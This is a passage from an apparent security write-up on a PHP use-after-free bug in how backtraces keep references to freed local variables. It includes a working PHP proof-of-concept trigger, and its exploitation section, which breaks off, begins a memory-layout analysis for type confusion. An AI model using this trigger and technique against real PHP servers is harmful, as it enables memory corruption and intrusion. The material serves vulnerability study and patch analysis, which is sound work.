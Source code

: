 ## 0x02 Bug

*In my understanding*, The use-after-free is caused by freeing variables without reference(e.i. `ref count = 0`) before putting the local variables into the `backtrace`. In this way already freed variables can be re-accessed by accessing `backtrace`. As the [patch](http://git.php.net/?p=php-src.git;a=commitdiff;h=ef1e4891b47949c8dc0f9482eef9454a0ecdfa1d;hp=8226e704e4e6066a5bd41b57b2934a3371896be2) suggests, the way to fix is just to put stack frame unlink before freeing variables:

>Unlink the current stack frame before freeing CVs or extra args.
>This means it will no longer show up in back traces that are
>generated during CV destruction.
>
>We already did this prior to destructing the object/closure,
>presumably for the same reason.

The PoC with explanation is shown below:

```php
class Vuln {
    public $a;
    public function __destruct() {
        global $backtrace;
        unset($this->a);
        $backtrace = (new Exception)->getTrace(); // backtrace has ref to $arg
    }
}
function trigger_uaf($arg) {
    $arg = str_shuffle(str_repeat('A', 79)); // string to be UAFed
    $vuln = new Vuln();
    $vuln->a = $arg;
}
trigger_uaf('x');
$backtrace[0]['args'][1] // access UAF string
```

## 0x03 Exploit

### PHP Object Memory Layout

Before exploiting any script engine, one critical thing to know is how object is stored in this script engine. In this case, we need to know how `string` and other PHP objects are stored in memory, since the best way to exploit UAF is to replace the just freed string with another PHP object to have type confusion. In this way we may do some evil stuff such as leaking critical memory addresses by reading from that PHP string.

Thanks to @Anciety who helped me to find [definition of various PHP types](https://github.com/php/php-src/blob/master/Zend/zend_types.h), I can investigate the exploitation more conveniently.

The exploit method that the provided exploit is using is to obfuscate PHP string with PHP object created from class. Here are definitions of these 2 types:

```c
struct _zend_string {
	zend_refcounted_h gc;
	zend_ulong        h;                /* hash value */
	size_t            len;
	char              val[1];
};
struct _zend_object {
	zend_refcounted_h gc;
	uint32_t          handle; // TODO: may be removed ???
	zend_class_entry *ce;
	const zend_object_handlers *handlers;
	HashTable        *properties;
	zval              properties_table[1]; 
    // zval is a union followed by its type description
```